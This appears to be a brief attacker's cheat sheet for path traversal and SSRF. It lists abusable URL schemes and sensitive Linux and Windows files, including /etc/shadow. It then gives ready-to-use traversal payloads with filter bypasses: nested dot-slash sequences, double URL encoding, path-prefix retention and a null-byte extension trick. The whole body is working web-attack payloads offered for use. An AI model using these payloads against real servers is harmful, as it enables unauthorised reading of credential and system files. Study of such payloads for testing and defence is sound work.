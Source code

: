 file:///, dict://, ftp://, gopher://

in linux machines : 
/etc/passwd   , /etc/issue  , /etc/group  , /etc/shadow

windows : 
WINDOWS\System32\drivers\etc\hosts
C:\Users\[USERNAME]\Desktop\desktop.ini
WINDOWS\system32\win.ini

....//....//etc/passwd
../../../etc/passwd
/etc/passwd
..%252f..%252f..%252fetc/passwd (double url encoding because the server will decode it)

/var/www/images/../../../../etc/passwd : (sometimes the validation be in the start od the path , so keep it)

../../../../../etc/passwd%0012.jpg : validation in extension , bypass via null byte